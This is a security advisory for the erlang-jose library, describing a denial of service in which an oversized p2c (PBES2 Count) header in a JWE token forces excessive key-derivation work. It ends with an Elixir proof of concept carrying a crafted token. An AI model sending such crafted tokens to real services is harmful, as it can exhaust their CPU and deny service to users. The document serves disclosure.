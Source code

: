 # erlang-jose

## Summary

erlang-jose (aka JOSE for Erlang and Elixir) through 1.11.6 allow attackers to cause a denial of service (CPU consumption) via a large p2c (aka PBES2 Count) value in a JOSE header.

## Description

potatosalad/erlang-jose is a Erlang module implementing JOSE(Json Object Signing and Encrypting) technologies.

The JWE key management algorithms based on PBKDF2 require a JOSE Header Parameter called p2c (PBES2 Count). This parameter dictates the number of PBKDF2 iterations needed to derive a CEK wrapping key. Its primary purpose is to intentionally slow down the key derivation function, making password brute-force and dictionary attacks more resource- intensive.

Therefore, if an attacker sets the p2c parameter in JWE to a very large number, it can cause a lot of computational consumption, resulting in a DOS attack.

## Poc

```elixir
iex(1)> jwk_secret = JOSE.JWK.from_oct("secret")
#JOSE.JWK<keys: :undefined, fields: %{}, ...>
iex(2)> JOSE.JWE.block_decrypt(jwk_secret, "eyJhbGciOiJQQkVTMi1IUzI1NitBMTI4S1ciLCJlbmMiOiJBMTI4R0NNIiwicDJjIjoxMDAwMDAwMDAwLCJwMnMiOiJmbmcxUVJNU1ljWDljb2s4RUhHWWhnIn0.YZBzMWbcndBWvOjf4c3R2oPtRsRqSKDc.rv6Qc-lKE0WA6-MI.bHE.hNkOsML8iJJWbd1KwDEGHQ") |> elem(0)
```

